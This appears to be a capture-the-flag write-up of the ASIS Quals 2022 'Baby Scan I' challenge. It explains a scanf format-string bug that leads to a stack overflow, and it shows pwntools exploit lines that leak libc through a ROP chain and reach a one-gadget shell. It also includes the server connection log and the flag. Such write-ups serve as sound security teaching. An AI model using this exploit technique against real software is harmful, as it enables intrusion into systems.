 ```yaml
---
title: 'Baby Scan I - ASIS QUALS 2022'
permalink: /writeups/asisquals2022/babyscanI
---
```


> Is it possible to scan the thousands of resulting strings by hand? We think it’s tedious, but will get the job done!

## Intro

At the start of my master's degree, I joined STT for the ASIS Quals CTF 2022 and one of the pwn challenges was baby scan. It is, as you'll see, a format string challenge, but this time the vulnerable function will be scanf, and not printf as usuall. I managed to solve this challenge with the help of one of my teamates.

## Analysis

### checksec

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### file command output

```bash
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=b31cf6b807484f2d04a80ceb67725cdb0f0785cd, not stripped
```

### Code

Source code was provided so reverse will be done quickly

```c
int main() {
  char size[16], fmt[8], *buf;

  printf("size: ");
  scanf("%15s", size);
  if (!isdigit(*size)) {
    puts("[-] Invalid number");
    return 1;
  }

  buf = (char*)alloca(atoi(size) + 1);

  printf("data: ");
  snprintf(fmt, sizeof(fmt), "%%%ss", size);
  scanf(fmt, buf);

  return 0;
}
```

It's pretty obvious just by looking at the code that we control the format string in scanf. However, we need to pass a size that passes the isDigit check. The key is that isDigit expects an int, but a char* is passed, so it will only check the first character sent. Ensuring that the first character is a decimal digit then the rest is easy, since we control the format string in scanf. It is worth mentioning that, the %% will result in a % being printed into the string. Therefore, what will be printed into the fmt string is %sizes, where we control the size.

## Exploit

### Libc leak

By sending 8s%s this will result in the following format string %8s%ss. Basically scanf will read a string of 8 characters, then read another of arbitrary size (until a space or a new line) and then fail (since the s there won't match anything). However, looking at the scanf arguments we see that we only specified one argument, buf. Thus, we have an out of bounds write, aka buffer overflow in the stack. Using this overflow we will then get RCE.  
Having figgured out the vulnerability, this is a simple rop to call puts(puts) (puts with its address as argument) to leak libc base address) and have another run at main. This part of the exploit is shown bellow. Simple note, one could have used any number besides 8 as long as it is a decimal digit. However, keep in mind that changing the 8 to a different value will affect the padding sent, since part of the padding is beiing extract by the %8s format.

```python
io.sendlineafter(b"size: ", b'8s%s')

io.sendlineafter(b"data: ", b"A" * 96 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main))
```

It is worth mentioning that the gadget to set the rdi register used was

```bash
0x0000000000401433 : pop rdi ; ret
```

Then all there is to do is parse the leak and compute libc base address

### Shell

Using the same payload as last time, only this time overwriting the main's return address to the one gadget address gives us a shell. The one gadget that was chosen is listed bellow.

```bash
0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL
```

As you can see, I got a shell and the flag

```bash
[+] Opening connection to 65.21.255.31 on port 13370: Done
[*] Switching to interactive mode
ASIS{06e5ff13b438f5d6626a97758fddde3e502fe3fc}
```

Remember that this is one of many possible solutions
